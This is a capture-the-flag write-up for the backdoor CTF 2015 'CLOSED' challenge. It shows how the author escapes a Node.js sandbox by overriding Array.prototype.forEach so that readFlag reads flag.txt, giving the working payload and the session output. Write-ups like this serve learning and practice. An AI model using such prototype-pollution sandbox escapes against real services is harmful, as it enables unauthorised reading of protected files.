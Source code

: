 # backdoor CTF 2015: [CLOSED](https://backdoor.sdslabs.co/challenges/CLOSED)

**Category:** Exploit
**Points:** 300
**Author:** Amanpreet Singh
**Difficulty:** TODO
**Solves:** 13
**Description:**

* <https://backdoor.sdslabs.co/challenges/CLOSED>

> All paths have been closed. Get the flag: `nc 128.199.107.60 8000`. Submit sha256 of flag obtained.

## Write-up

[Read the write-up for the _Concealed_ challenge first.](https://github.com/ctfs/write-ups-2015/tree/master/backdoor-ctf-2015/exploit/concealed) This challenge is similar.

Let’s connect to the service:

```bash
$ nc 128.199.107.60 8000
######################################
####           CLOSED             ####
######################################

Welcome to CLOSED Jail
You have access to object named sandboxed and its functions
Rest everything is sandboxed, don’t be a jerk and break something
Wrap your code in a function and return what you want as output
Flag is in flag.txt file in same directory.
Get the flag :D!

home@jail:$
```

The welcome message reveals that the flag is hidden in `flag.txt`. Some initial testing reveals it’s a JavaScript sandbox:

```
home@jail:$ sandboxed
TypeError: Property 'sandboxed' of object #<Object> is not a function

home@jail:$ function() { return sandboxed; }
[object Object]

home@jail:$ function() { return Object.keys(sandboxed); }
readFlag,print

home@jail:$ sandboxed.readFlag
Oh shit! I am reading the wrong file.

home@jail:$ function() { return sandboxed.readFlag; }
function () {
  var text = '';
  flagfiles.forEach(function (file) {
    text += fs.readFileSync(file);
  });

  return text;
}

home@jail:$ sandboxed.print
undefined

undefined

home@jail:$ function() { return sandboxed.print; }
function (data) {
  sys.print(data + '\n' + '\n');
}
```

Unfortunately, the sandbox runs in strict mode, which means we can’t reuse the trick we used to solve [_Concealed_](https://github.com/ctfs/write-ups-2015/tree/master/backdoor-ctf-2015/exploit/concealed) to reveal the rest of the source code:

```
home@jail:$ function() { return String(arguments.callee.caller); }
TypeError: 'caller', 'callee', and 'arguments' properties may not be accessed on strict mode functions or the arguments objects for calls to them
```

It seems the challenge must be solved some other way. Let’s take a closer look at the `readFlag` function:

```
home@jail:$ function() { return sandboxed.readFlag; }
function () {
  var text = '';
  flagfiles.forEach(function (file) {
    text += fs.readFileSync(file);
  });

  return text;
}
```

We can’t control the value of the `flagfiles` variable, but if we could, the challenge could be solved by doing something like `flagfiles = ['flag.txt']`. However, we can overwrite `Array.prototype.forEach` as follows:

```js
Array.prototype.forEach = function(callback, array) {
  return callback.call(array, 'flag.txt');
};
```

Now, when `sandboxed.readFlag` gets called, it will return the contents of `flag.txt`:

```
home@jail:$ function() { Array.prototype.forEach = function(callback, array) { return callback.call(array, 'flag.txt'); }; return sandboxed.readFlag(); }
flag: [redacted]
```

Now that we have the flag, all that’s left to do is to hash it using SHA-256 so it can be submitted:

```bash
$ printf "$flag" | sha256sum
```

## Other write-ups and resources

* none yet
